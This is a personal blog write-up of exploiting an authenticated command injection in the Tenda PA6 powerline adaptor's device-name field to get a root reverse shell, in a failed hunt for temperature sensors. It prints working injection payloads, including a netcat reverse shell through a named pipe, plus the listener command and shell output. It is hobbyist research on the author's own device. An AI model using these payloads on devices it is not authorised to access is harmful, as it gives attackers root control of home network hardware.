 ```yaml
---
title: "Breaking into your Tenda PA6 Powerline adaptor"
date: 2023-09-10T11:25:58+01:00
description: "Using a command injection to get a root shell on a Tenda PA6 Powerline adaptor"
keywords: ["infosec", "tenda pa6", "powerline"]
draft: false
tags: ["projects", "security"]
math: false
toc: false
---
```


{{< image path="tenda-pa6.jpg" alt="My Tenda PA6 in the attic" >}}

So I have a little Tenda PA6 Powerline/HomePlug WiFi extender that I use as an additional WAP in the attic room of my house. This room has been getting very hot recently (around 35 °C), and when I touch the device it feels to be at least 60 °C. Tenda's website says that the PA6 can operate in temperatures up to 40 °C, but I wanted to see if I could get some temperature readings out of the device to see how hot it is actually getting. 

What I should have done here is buying an infrared thermometer, but where is the fun in that?

Conveniently for me, some security researchers from IBM have already made a [pretty comprehensive write-up](https://securityintelligence.com/posts/vulnerable-powerline-extenders-underline-lax-iot-security/) of all the holes in the PA6. In typical vendor fashion, Tenda have not fixed any of these issues in the 3 years since they published the article. The researchers provide 3 exploits for the device, an authed Command Injection, an authed Buffer Overflow, and a pre-auth DoS. As I have the admin password (the default is `admin` 🤦), I decided to go with the Command Injection, which I figured would be the easiest to exploit.

{{< image path="tenda-powerline-settings.png" alt="Screenshot of the Powerline settings page on the Tenda PA6" >}}

The Command Injection issue is as basic as it gets. On the device's powerline settings page, you can change the names of the other PLCs on the network. Unfortunately, this name change is done by simply `sprintf`'ing the raw user input into a string, which is then executed as a command on the system, as root. This means you just need to put a little `" ;` in your chosen name, and then you can run any command present on the device. The security researchers don't quite spell out how to exploit this, but even I managed it after a few hours of head scratching.

Conveniently, the PA6 has BusyBox installed, which has a `netcat` binary for us to use --- I found out about this from a [GitHub gist](https://gist.github.com/Weissnix4711/eeb54186469d313d07ffb44d00344a3f) listing all the files in the firmware image. As I wanted a shell on the PA6, we can use `netcat` to pipe a shell session over a TCP socket back to my attacker PC (a reverse shell). 

To do this you first need to spin up a `netcat` listener on your attacker PC, which will listen for incoming connections. I did this with `nc -lvp 4444`. Note in this example my attacker PC has the IP address `192.168.1.100`.

Then we begin to work on the PA6, pasting our commands into one of the PLC device name fields. The version of `nc` on the PA6 doesn't have the convenient `-e` option that handles executing a command for you, so instead we have to do a dance with a named FIFO pipe [^1]. You first paste in:

[^1]: The PA6 uses a very old version of BusyBox, v1.17.2, which was released in August 2010. Weirdly it was compiled 8 years later, on `2018-01-22 01:08:54`. From digging in the source code, it seems the `-e` switch was available in BusyBox v1.17.2's `nc`, but it seems to have been compiled without the `NC_EXTRA` option.

```bash
a" ; mknod /tmp/f p #
```

Here `a` is just a placeholder name. You can then set up the reverse shell by pasting the following into the same field [^2]:

[^2]: You'd normally do this in a single step, but this field only accepts 63 characters. I'm assuming this is just a client side limit, so you could probably sidestep it by sending the request with `curl` or something. 

```bash
a" ; cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.100 4444 >/tmp/f #
```

What we are doing here is passing whatever comes out of the `/tmp/f` pipe into the `stdin` of the shell. We then pipe the `stdout` and `stderr` of the shell into `netcat`, which will send it back to our attacker PC. Finally, we redirect the `stdout` of `netcat` (which is whatever commands we input on the attacker PC), back into the `/tmp/f` pipe. This gives us a poor man's SSH session on the PA6.

`netcat` on your attacker PC should then print some message like:

```bash
Ncat: Connection from 192.168.1.XX.
Ncat: Connection from 192.168.1.XX:XXXXX.

BusyBox v1.17.2 (2018-01-22 01:08:54 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# 
```

Now you can explore! Here is `/proc/cpuinfo`, (some of) `/proc/meminfo` and `/proc/version`:

```bash
# cat /proc/cpuinfo
system type             : 960500WIFI_P201
processor               : 0
cpu model               : Broadcom BMIPS3300 V3.3
BogoMIPS                : 397.31
wait instruction        : yes
microsecond timers      : yes
tlb_entries             : 32
extra interrupt vector  : no
hardware watchpoint     : no
ASEs implemented        :
shadow register sets    : 1
kscratch registers      : 0
core                    : 0
VCED exceptions         : not available
VCEI exceptions         : not available

# cat /proc/meminfo
MemTotal:          29468 kB
MemFree:            1288 kB
Buffers:             700 kB
Cached:             3808 kB
SwapCached:            0 kB
Active:             5680 kB
Inactive:           2028 kB
[...]
VmallocTotal:    1032116 kB
VmallocUsed:        2784 kB
VmallocChunk:    1025180 kB

# cat /proc/version
Linux version 3.4.11-rt19 (root@localhost.localdomain) (gcc version 4.6.2 (Buildroot 2011.11) ) #1 PREEMPT Mon Jan 22 01:07:36 CST 2018
```

A whole 32 MB of RAM! Here is `top`:

```bash
Mem: 28240K used, 1228K free, 0K shrd, 740K buff, 3816K cached
CPU:   0% usr   5% sys   0% nic  93% idle   0% io   0% irq   0% sirq
Load average: 0.84 0.78 0.78 1/47 17193
  PID  PPID USER     STAT   VSZ %MEM CPU %CPU COMMAND
  250     2 admin    SW       0   0%   0   5% [wl0-kthrd]
  217     2 admin    SW       0   0%   0   1% [bcmsw_rx]
17147 15971 admin    R     1712   6%   0   0% top
  588   294 admin    S     5348  18%   0   0% httpd -m 0
  415   294 admin    S     4704  16%   0   0% wlmngr -m 0
  422   421 admin    S     4704  16%   0   0% wlmngr -m 0
  421   415 admin    S     4704  16%   0   0% wlmngr -m 0
  418   294 admin    S     3888  13%   0   0% homeplugd -m 0
  295   294 admin    S     3848  13%   0   0% ssk
  420   419 admin    S     3784  13%   0   0% consoled
  294     1 admin    S     3504  12%   0   0% /bin/smd
  416   294 admin    S     3428  12%   0   0% plcnvm -m 0
  543     1 admin    S     1948   7%   0   0% /bin/nas
  310   294 admin    S     1764   6%   0   0% syslogd -n -C -l 7
  565     1 admin    S     1712   6%   0   0% /bin/acsd
15971 15966 admin    S     1712   6%   0   0% /bin/sh -i
    1     0 admin    S     1708   6%   0   0% init
15966   588 admin    S     1708   6%   0   0% sh -c homeplugctl remote_set --rem
  419     1 admin    S     1708   6%   0   0% -/bin/sh -l -c consoled
15972 15966 admin    S     1704   6%   0   0% nc 192.168.1.100 4444
```

Unfortunately, I couldn't actually find any way of reading any temperature sensors on the device. I tried looking in `/sys/class/thermal`, and a couple of other places, but nothing seemed to present itself. Presumably this SOC just doesn't have any temperature sensors.